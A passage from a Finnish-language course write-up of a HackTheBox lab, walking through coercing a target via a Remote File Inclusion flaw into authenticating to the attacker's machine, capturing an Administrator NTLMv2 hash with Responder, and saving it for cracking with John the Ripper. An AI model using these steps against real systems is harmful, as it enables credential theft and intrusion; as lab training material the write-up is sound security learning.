 ```bash
$ ip a
...snip..
5: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> ...snip...
    link/none
    inet 10.10.15.63/23 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::113d/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::b67f:4235:a652:1527/64 scope link stable-privacy proto kernel_ll
       valid_lft forever preferred_lft forever
```
Otetaan ip 10.10.15.63 ja syötetään se selaimessa urliin siten, että käytetään hyväksi
HTB tehtävässä opittua Remote File Include (RFI) vulnerabilitya. Verkkosivun host tulee hakemaan
jonkin tiedoston meiltä.

Responder käyttäytyy palvelimen tavoin, josta hakija voi hakea tietoa. Se nappaa hakijan
tiedot NTLM:n vuoksi, koska protokollan mukaan autentikaatiota tehdessä hakijan
täytyy encryptata palvelimen lähettämä challenge omalla salasanan hashillaan[^6].
Kun hakijalta on saatu tämä vastauksena, Responder ottaa tämän haltuunsa, ja esittää
ulostulona hakijan salasanan hashin, joka voidaankin yrittää murtaa edellisillä viikoilla
opitun tiedon perusteella.

```bash
$ sudo responder -I tun0
...snip...
[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.15.63]
    Responder IPv6             [dead:beef:2::113d]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-XPF95QW4JYM]
    Responder Domain Name      [ARSG.LOCAL]
    Responder DCE-RPC Port     [48247]

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.186.74
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:ab8baaf4398d62d8:ECD...snip..
[+] Exiting...
```

> What is the password for the administrator user?

Otetaan responderin saama hash, laitetaan se txt tiedostoon ja annetaan johntheripperin
tehdä loput.

```bash
$ echo "Administrator::RESPONDER:ab8baaf4398d62d8:ECD...snip..." | tee ntlmhash.txt
```


[^1]: HackTheBox, Connecting to Academy VPN, https://help.hackthebox.com/en/articles/9297532-connecting-to-academy-vpn
[^2]: Patrik Mihelson-Adamson, h1, https://github.com/p-lemonish/course-penetration-testing/blob/master/h1.md
[^3]: Learnlinux, Using smbclient, https://www.learnlinux.org.za/courses/build/net-admin/ch08s02.html
[^4]: Linux man page, smbclient(1), https://linux.die.net/man/1/smbclient
[^5]: cnotin, Nmap Github issue: Improve wsman/WinRM service fingerprinting #2119, https://github.com/nmap/nmap/issues/2119
[^6]: CNarendran Vaideeswaran, 2025, Crowdstrike, NTLM Explained, https://www.crowdstrike.com/en-us/cybersecurity-101/identity-protection/windows-ntlm/
[^7]: Kali, Tool documentation: responder usage example, https://www.kali.org/tools/responder/
[^8]: Hackplayers, evil-winrm, https://github.com/Hackplayers/evil-winrm